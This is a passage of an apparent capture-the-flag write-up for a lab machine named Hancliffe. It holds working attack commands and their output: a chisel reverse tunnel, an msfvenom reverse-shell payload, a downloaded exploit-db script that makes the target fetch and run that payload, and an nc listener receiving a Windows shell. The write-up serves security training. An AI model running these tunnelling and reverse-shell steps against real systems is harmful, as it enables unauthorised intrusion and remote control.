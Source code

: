 #linux
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
```
Uploading chisel.exe to server
first starting ```python3 -m http.server 80``` where chisel.exe exist
then transfer it to server.I will use ```iwr http://10.10.14.138/chisel.exe  -OutFile chisel.exe```

<img src='/assets/img/upload-chisel-hancliffe.png' alt='upload chisel'>

On your machine
```
└─$ ./chisel_1.7.7_linux_amd64 server -p 8000 --reverse                                                                                                              2 ⨯
2022/03/07 22:57:24 server: Reverse tunnelling enabled
2022/03/07 22:57:24 server: Fingerprint G3q9Hsq+VNERRHiQFJ2pla10CSrQF8N4fuqVN4DKUZI=
2022/03/07 22:57:24 server: Listening on http://0.0.0.0:8000
```
On client
```
PS C:\temp> .\chisel.exe client 10.10.14.138:8000 R:9512:127.0.0.1:9512
.\chisel.exe client 10.10.14.138:8000 R:9512:127.0.0.1:9512
2022/03/07 12:01:42 client: Connecting to ws://10.10.14.138:8000
2022/03/07 12:01:44 client: Connected (Latency 175.3638ms)
```

verify that we did tunnelling 

<img src='/assets/img/verfied-hanclife.png' alt='verified'>

first create payload as exploit needed it

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.138 LPORT=1235 -f exe -o rev.exe
```
then
open webserver where the payload can be reached
then

```
wget https://www.exploit-db.com/raw/49587
```
running it
```
└─$ python2 exploit.py 127.0.0.1 10.10.14.138 rev.exe                                                                                                                1 ⨯
[+] Connecting to target...
[+] Popping Start Menu
[+] Opening CMD
[+] *Super Fast Hacker Typing*
[+] Downloading Payload
[+] Done! Check listener?
```
Then we have a shell as clara
```
└─$ nc -nvlp 1235              
listening on [any] 1235 ...
connect to [10.10.14.138] from (UNKNOWN) [10.10.11.115] 54106
Microsoft Windows [Version 10.0.19043.1266]
(c) Microsoft Corporation. All rights reserved.

